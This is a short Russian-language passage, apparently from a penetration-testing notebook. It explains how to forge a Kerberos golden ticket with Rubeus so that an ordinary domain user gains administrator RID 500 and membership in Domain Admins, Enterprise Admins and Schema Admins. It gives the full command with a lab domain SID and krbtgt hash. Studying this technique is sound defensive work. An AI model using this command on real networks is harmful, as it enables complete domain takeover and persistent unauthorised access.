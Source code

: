 ![](../../../Attachments/image_5_2.png)

Создаем золотой билет для обычного доменного пользователя. Теперь он будет иметь права администратора (id 500) и состоять в сопутствующих группах: 513 (Пользователи домена), 512 (Администраторы домена), 519 (Администраторы предприятия), 518 (Администраторы схемы), 520 (Владельцы-создатели групповой политики)

`.\Rubeus.exe golden /newpac /domain:test.local /sid:S-1-5-21-3271603407-350436319-1246551825 /rc4:443867096fbe25b90fd8e4e612cb98d8 /user:goldenticket_user /ptt`

![](../../../Attachments/image_6_2.png)
